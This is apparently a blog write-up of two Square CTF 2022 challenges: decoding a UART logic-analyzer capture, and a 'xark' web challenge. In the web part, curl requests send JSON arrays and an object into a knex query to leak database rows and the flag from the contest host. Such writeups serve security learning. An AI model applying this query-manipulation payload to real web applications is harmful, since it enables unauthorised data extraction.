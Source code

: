 ```yaml
---
title: "Square CTF 2022"
date: 2022-11-21
---
```


# Square CTF 2022

## [sqUARe paymenT terminal](https://2022.squarectf.com/challenge?square-payment-terminal)
misc  

sqUARe paymenT terminal is a UART challenge. A `Terminal_Cap.sal` file is provided. 

checking out the file:
```sh
$ file Terminal_Cap.sal
Terminal_Cap.sal: Zip archive data, at least v2.0 to extract, compression method=deflate

$ unzip Terminal_Cap.sal 
Archive:  Terminal_Cap.sal
  inflating: digital-0.bin           
  inflating: digital-1.bin           
  inflating: digital-2.bin           
  inflating: digital-3.bin           
  inflating: digital-4.bin           
  inflating: digital-5.bin           
  inflating: digital-6.bin           
  inflating: digital-7.bin           
  inflating: meta.json
```

We have 8 binary files and a `meta.json`. Fortunately, this file has some good clues:

<details>
  <summary>`meta.json`</summary>
  <pre id="json">             
  {
    "version": 15,
    "data": {
      "renderViewState": {
        "leftEdgeTimeSec": 2.347354838709678,
        "timeSecPerPixel": 0.0072688172043010755
      },
      "captureProgress": {
        "maxCollectedTime": 10.815999999999999,
        "processedInterval": {
          "begin": 0,
          "end": 10.837333333333333
        },
        "memoryUsedMb": 0,
        "isProcessing": false
      },
      "captureStartTime": {
        "unixTimeMilliseconds": 1667595522858,
        "fractionalMilliseconds": 0.56
      },
      "timingMarkers": {
        "markers": {},
        "pairs": {}
      },
      "measurements": [],
      "highLevelAnalyzers": [],
      "analyzers": [],
      "rowsSettings": [
        {
          "id": "b718c61e-499e-4190-bdcc-c2490165f32e",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 0",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 0
          }
        },
        {
          "id": "25e5f4a8-f0b4-4c4f-86f4-1e6148d47b30",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 1",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 1
          }
        },
        {
          "id": "c37287c6-be0a-4a06-8644-de1dcc84b038",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 2",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 2
          }
        },
        {
          "id": "39cc1040-bd89-4faf-ba36-d9884cc968d8",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 3",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 3
          }
        },
        {
          "id": "5c1c9b4e-ccb2-4e00-bea4-e257d2aa5785",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 4",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 4
          }
        },
        {
          "id": "8d93d75b-0896-4a10-a1ab-186cea0b80a3",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 5",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 5
          }
        },
        {
          "id": "fac1b78b-623e-48ee-8e47-0573eca9ddfb",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 6",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 6
          }
        },
        {
          "id": "97185903-d1b4-455c-9dd4-ad41686ae1ba",
          "height": 100,
          "isMarkedHidden": false,
          "type": "channel",
          "name": "Channel 7",
          "channel": {
            "category": "legacy",
            "type": "Digital",
            "deviceChannel": 7
          }
        }
      ],
      "captureSettings": {
        "bufferSizeMb": 3072,
        "captureMode": "Circular",
        "stopAfterSeconds": 100,
        "trimAfterCapture": false,
        "trimTimeSeconds": 5,
        "digitalTriggerSettings": {
          "type": {
            "mode": "Edge",
            "name": "Rising",
            "pattern": "Rising"
          },
          "timeAfterTriggerToStop": 1,
          "linkedChannels": [],
          "duration": {
            "min": 0.001,
            "max": 0.01
          }
        },
        "glitchFilter": {
          "enabled": false,
          "channels": []
        },
        "connectedDevice": {
          "name": "Logic",
          "deviceId": "10367413859617842647",
          "deviceType": "Logic",
          "isSimulation": false,
          "capabilities": {
            "channelCapabilities": [
              {
                "type": "Digital",
                "index": 0,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 1,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 2,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 3,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 4,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 5,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 6,
                "capability": "AlwaysEnabled"
              },
              {
                "type": "Digital",
                "index": 7,
                "capability": "AlwaysEnabled"
              }
            ],
            "sampleRateOptions": [
              {
                "digital": 24000000
              },
              {
                "digital": 16000000
              },
              {
                "digital": 12000000
              },
              {
                "digital": 8000000
              },
              {
                "digital": 4000000
              },
              {
                "digital": 2000000
              },
              {
                "digital": 1000000
              },
              {
                "digital": 500000
              },
              {
                "digital": 250000
              },
              {
                "digital": 200000
              },
              {
                "digital": 100000
              },
              {
                "digital": 50000
              },
              {
                "digital": 25000
              }
            ],
            "isPhysicalDevice": true
          },
          "settings": {
            "enabledChannels": [
              {
                "type": "Digital",
                "index": 0
              },
              {
                "type": "Digital",
                "index": 1
              },
              {
                "type": "Digital",
                "index": 2
              },
              {
                "type": "Digital",
                "index": 3
              },
              {
                "type": "Digital",
                "index": 4
              },
              {
                "type": "Digital",
                "index": 5
              },
              {
                "type": "Digital",
                "index": 6
              },
              {
                "type": "Digital",
                "index": 7
              }
            ],
            "sampleRate": {
              "digital": 24000000
            }
          }
        }
      },
      "digitalTriggerTime": -1,
      "name": "Session 0",
      "dataTable": {
        "columns": {
          "analyzerIdentifier": {
            "isActive": true,
            "width": 18,
            "isDefault": true,
            "baseKey": "analyzerIdentifier",
            "excludeFromSearch": true
          },
          "frameType": {
            "isActive": true,
            "width": 75,
            "isDefault": true,
            "baseKey": "frameType",
            "excludeFromSearch": false
          },
          "start": {
            "isActive": true,
            "width": 110,
            "isDefault": true,
            "baseKey": "start",
            "excludeFromSearch": true
          },
          "duration": {
            "isActive": true,
            "width": 80,
            "isDefault": true,
            "baseKey": "duration",
            "excludeFromSearch": true
          },
          "data_data": {
            "width": 75,
            "baseKey": "data",
            "isActive": false
          },
          "data_error": {
            "width": 75,
            "baseKey": "error",
            "isActive": false
          }
        }
      },
      "analyzerTrigger": {
        "settings": {
          "enabled": false,
          "searchQuery": "",
          "holdoffSeconds": 0.2
        }
      },
      "timeManager": {
        "t0": {
          "type": "startOfCapture"
        }
      },
      "captureNotes": ""
    },
    "binData": [
      {
        "type": "Digital",
        "index": 0,
        "file": "./digital-0.bin"
      },
      {
        "type": "Digital",
        "index": 1,
        "file": "./digital-1.bin"
      },
      {
        "type": "Digital",
        "index": 2,
        "file": "./digital-2.bin"
      },
      {
        "type": "Digital",
        "index": 3,
        "file": "./digital-3.bin"
      },
      {
        "type": "Digital",
        "index": 4,
        "file": "./digital-4.bin"
      },
      {
        "type": "Digital",
        "index": 5,
        "file": "./digital-5.bin"
      },
      {
        "type": "Digital",
        "index": 6,
        "file": "./digital-6.bin"
      },
      {
        "type": "Digital",
        "index": 7,
        "file": "./digital-7.bin"
      }
    ]
  }
  </pre>
</details>

The main clue that helped me was `"captureMode": "Circular"`. Googling this line led to the discussion forum of the Saleae Logic 2 [](https://discuss.saleae.com/). We download the software from the site and open the capture file. 

![terminalcap_saleae]({{"../assets/2022-11-21-Square_CTF_0222/terminalcap_saleae.png" | relative_url }})

[Lots](https://en.wikipedia.org/wiki/Universal_asynchronous_receiver-transmitter) [of](https://support.saleae.com/protocol-analyzers/analyzer-user-guides/using-async-serial/decode-uart) [reading](https://support.saleae.com/protocol-analyzers/analyzer-user-guides/using-async-serial) plus trial and error in the Logic software helped find the bitrate for analysis. By zooming into one part of the signal and highlighting (shift+click+drag), we can see the baud rate.

![big_analysis_mode]({{"../assets/2022-11-21-Square_CTF_0222/big_analysis_mode.png" | relative_url }})

We use google again and get 38.4 kHz baud rate = 38400 bits/s. Enter this into the Async Serial Analyzer and we get our flag.

![big_analysis_mode_2]({{"../assets/2022-11-21-Square_CTF_0222/big_analysis_mode_2.png" | relative_url }})  

![big_analysis_mode_3]({{"../assets/2022-11-21-Square_CTF_0222/big_analysis_mode_3.png" | relative_url }})


## [xark](https://2022.squarectf.com/challenge?xark)
web  

xark is an anonymous messaging website with provided source files. Sending SQL injections and xss payloads do not seem to have an effect on the page.

![xark mainpage]({{"../assets/2022-11-21-Square_CTF_0222/xark.png" | relative_url }})

### deadends

[knex cve](https://www.cvedetails.com/cve/CVE-2019-10757/)  
An old version of knex was vulnerable to sql injection. We know from package.json (`"knex": "^2.3.0",`) that this version of knex is not vulnerable to this.


/debug  

```json
{"client":"mysql","connection":{"host":"database","port":"3306","user":"xark","password":"*******","database":"xark","charset":"utf8mb4"}}
```


/crushes.js  
```js
document.addEventListener("DOMContentLoaded", () => {
    record.onsubmit = ev => {
      $('#recordSpinner').show();
      $.post("/record", $(record).serialize(), () => {
        $(main).empty();
        $('<p>').text("Saved!").appendTo(main);
      })
      .fail((jqXHR) => {
        console.error(jqXHR);
        $(main).empty();
        $('<code>').text("error: " + jqXHR.responseJSON.error).appendTo(main);
      });
      return false;
    }

    view.onsubmit = ev => {
      $('#viewSpinner').show();
      $.post("/data", $(view).serialize(), (data) => {
        if (data.length == 0) {
          $(main).empty();
          $('<i>').text("Sorry, no crushes :(").appendTo(main);
        } else {
          $(main).empty();
          $('<p>').html("<p>You have " + data.length + " crushes :)</p>").appendTo(main);
          const d = $('<ul>').appendTo(main);
          data.map(e => $('<li>').text(e.message).appendTo(d));
        }
      })
      .fail((jqXHR) => {
        console.error(jqXHR);
        $(main).empty();
        $('<code>').text("error: " + jqXHR.responseJSON.error).appendTo(main);
      });
      return false;
    };
});
```

### sending json

We know the flag is inserted into the db when it is created in `index.js`  
```js
knex('crushes').insert({
            from: config.init.flag,
            to: config.init.flag,
            message: 'This is the flag!',
        }).then();
```

We must be able to pull this flag out of the db using the `/data` endpoint? But it seems that we only have control of the line `to: req.body.to`.
```js
app.post('/data', async (req, res) => {
    if (req.body.to) {
        const crushes = await knex('crushes')
            .select()
            .where({
                to: req.body.to
            })
            .limit(50);
        res.send(crushes);
    } else {
        res.status(400).send({});
    }
});
```

Lines 34-36 of index.js have an interesting import 
```js
app.use(express.urlencoded({
    extended: false
}));
```
The [express docs](https://expressjs.com/en/api.html#express.urlencoded) state that `express.urlencoded()`:

>Returns middleware that only parses urlencoded bodies and only looks at requests where the Content-Type header matches the type option.

In the parameters table, we see that the default value for the `type` parameter is `"application/x-www-form-urlencoded"`. If we send json then does the middleware not look at the request?

Sending some json, we can see the sql queries.
```sh
$ curl -d '{"to":"n","from":"m","message":["a","b"]}' -H "Content-Type: application/json" -X POST http://chals.2022.squarectf.com:4105/record
{"error":"insert into `crushes` (`from`, `message`, `to`) values ('m', 'a', 'b', 'n') - ER_WRONG_VALUE_COUNT_ON_ROW: Column count doesn't match value count at row 1"}%

$ curl -d '{"to":["n","m"]}' -H "Content-Type: application/json" -X POST http://chals.2022.squarectf.com:4105/data
{"error":"select * from `crushes` where `to` = 'n', 'm' limit 50 - ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ', 'm' limit 50' at line 1"}%
```

### solution

We get the flag by sending a request with `{"id":0}` in the `"to:"` field.

```sh
$ curl -d '{"to": {"id":0} }' -H "Content-Type: application/json" -X POST http://chals.2022.squarectf.com:4105/data
[{"id":1,"from":"flag{kn3x3d_chall3ng3_pls}","to":"flag{kn3x3d_chall3ng3_pls}","message":"This is the flag!"},{"id":2,"from":"a","to":"b","message":"...
<...>
```